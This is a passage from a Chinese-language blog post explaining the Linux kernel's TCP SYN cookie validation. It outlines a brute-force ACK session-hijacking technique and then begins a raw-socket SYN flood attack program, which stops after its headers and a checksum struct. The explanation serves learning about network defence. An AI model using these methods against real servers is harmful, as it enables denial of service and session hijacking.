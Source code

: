 ```cpp
	/* Strip away the layers from the cookie */
	cookie -= cookie_hash(saddr, daddr, sport, dport, 0, 0) + sseq;
 
 
	/* Cookie is now reduced to (count * 2^24) ^ (hash % 2^24) */
	diff = (count - (cookie >> COOKIEBITS)) & ((__u32) -1 >> COOKIEBITS);
	if (diff >= MAX_SYNCOOKIE_AGE)
		return (__u32)-1;
 
 
	return (cookie -
		cookie_hash(saddr, daddr, sport, dport, count - diff, 1))
		& COOKIEMASK;	/* Leaving the data behind */
}
```

先减去之前的一些值，第一个hash和sseq。然后计算现在的count（每60秒加1的计数器）和之前的发给客户端，然后客户端返回过来的count的差：
如果大于MAX_SYNCOOKIE_AGE，即2，即2分钟。则说明已经超时了。

否则，计算得出之前放进去的mss。这样内核就认为这个是一个合法的TCP连接，并且得到了一个合适的mss值，这样就建立起了一个合法的TCP连接。
可以看到SYN cookie机制十分巧妙地不用任何存储，以略消耗CPU实现了对第三次握手的校验。

但是有得必有失，ISN里只存储了MSS值，因此，其它的TCP Option都不会生效，这就是为什么SNMP协议会误报的原因了。

### 更强大的攻击者

SYN cookie虽然十分巧妙，但是也给攻击者带了新的攻击思路。

因为SYN cookie机制不是正常的TCP三次握手。因此攻击者可以构造一个第三次握手的ACK包，从而劫持会话。

攻击者的思路很简单，通过暴力发送大量的伪造的第三次握手的ACK包，因为ISN只有32位，攻击者只要发送全部的ISN数据ACK包，总会有一个可以通过服务器端的校验。

有的人就会问了，即使攻击者成功通过了服务器的检验，它还是没有办法和服务器正常通讯啊，因为服务器回应的包都不会发给攻击者。

刚开始时，我也有这个疑问，但是TCP允许在第三次握手的ACK包里带上后面请求的数据，这样可以加快数据的传输。所以，比如一个http服务器，攻击者可以通过在第三次握手的ACK包里带上http get/post请求，从而完成攻击。

所以对于服务器而言，不能只是依靠IP来校验合法的请求，还要通过其它的一些方法来加强校验。比如CSRF等。

**值得提醒的是即使是正常的TCP三次握手过程，攻击者还是可以进行会话劫持的，只是概率比SYN cookie的情况下要小很多。**

详细的攻击说明：http://www.91ri.org/7075.html

### 一个用raw socket SYN flood攻击的代码

下面给出一个tcp syn flood的攻击的代码：

```cpp
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <stdlib.h>
#include <errno.h>
#include <netinet/tcp.h>
#include <netinet/ip.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
 
#pragma pack(1)
struct pseudo_header    //needed for checksum calculation
{
	unsigned int source_address;
	unsigned int dest_address;
	unsigned char placeholder;
	unsigned char protocol;
	unsigned short tcp_length;
```
